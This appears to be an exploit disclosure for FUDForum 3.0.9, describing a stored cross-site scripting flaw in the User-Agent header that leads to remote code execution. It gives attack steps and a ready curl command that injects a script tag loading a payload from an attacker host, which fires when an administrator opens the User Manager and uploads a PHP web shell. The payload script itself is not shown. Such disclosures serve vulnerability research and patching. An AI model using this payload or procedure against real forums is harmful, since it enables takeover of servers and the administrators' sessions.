# FUDforum-XSS-RCE
FUDForum 3.0.9 - XSS / Remote Code Execution

Date                  : 10/26/19
Exploit Author        : liquidsky (JMcPeters)
Vulnerable Software   : FUDForum 3.0.9
Vendor Homepage       : http:fudforum.org/forum/
Version               : 3.0.9
Software Link         : https:sourceforge.net/projects/fudforum/
Tested On             : Windows / mysql / apache
Author Site           : http:incidentsecurity.com | demo: https:youtu.be/0gsJQ82TXw4
CVE                   : TBD

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to XSS via the user-agent request header.
This may result in remote code execution. An attacker can use a user account to fully compromise the system using a GET request.
When the admin visits the user information under "User Manager" in the control panel the payload will execute.
This will allow for PHP files to be written to the web root, and for code to execute on the remote server. 

Notes: 

1. Register an account and log in to the forum. If you have an IP already associated with a registered user this is not required.
   This step is so when you run the XSS payload from your attacker machine it gets logged under the user activity.

2. Send the XSS payload below (from an IP associated with an account) / host the script:
curl -A '<script src="http:attacker.machine/fud.js"></script>' http:target.machine/fudforum/index.php

3. When the admin visits the user information from the admin controls / User Manager the payload will fire under "Recent sessions", uploading a php shell on the remote system.
